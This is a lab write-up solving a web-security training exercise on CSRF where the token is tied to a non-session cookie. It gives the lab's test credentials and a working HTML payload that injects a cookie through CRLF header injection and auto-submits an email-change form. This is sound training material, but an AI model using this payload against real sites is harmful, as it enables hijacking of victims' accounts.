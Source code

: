 # CSRF where token is tied to non-session cookie
# Objective
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:\
- `wiener:peter`
- `carlos:montoya`

# Solution
## Analysis

|![](Images/image-12.png)|
|:--:| 
| *Test of change email functionality (user wiener) - csrf token and csrfKey is preset* |

Both users have the same `csrf` token and `csrfKey` cookie. These security measures are not tied to user sessions.

|![](Images/image-13.png)|
|:--:| 
| *Original change email request from  wiener* |
|![](Images/image-14.png)|
| *Original change email request from  carlos* |



## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below)
  - Create a URL that uses this vulnerability to inject your `csrfKey` cookie into the victim's browser
  - Craft POST request o `/my-account/change-email` with valid `csrf` token and valid `csrfKey` cookie
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

URL decoded characters `%0d%0a` are `\r\n` (carriage return and line feed). They are used to seperate headers in HTTP/1.1 requests.

```html
<form method="POST" action="URL/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
    <input type="hidden" name="csrf" value="VALID_CSRF">
</form>

<img src="URL/?search=test%0d%0aSet-Cookie:%20csrfKey=VALID_CSRF_KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

|![](Images/image-16.png)|
|:--:| 
| *URL decoded payload* |
|![](Images/image-15.png)|
| *Final payload* |
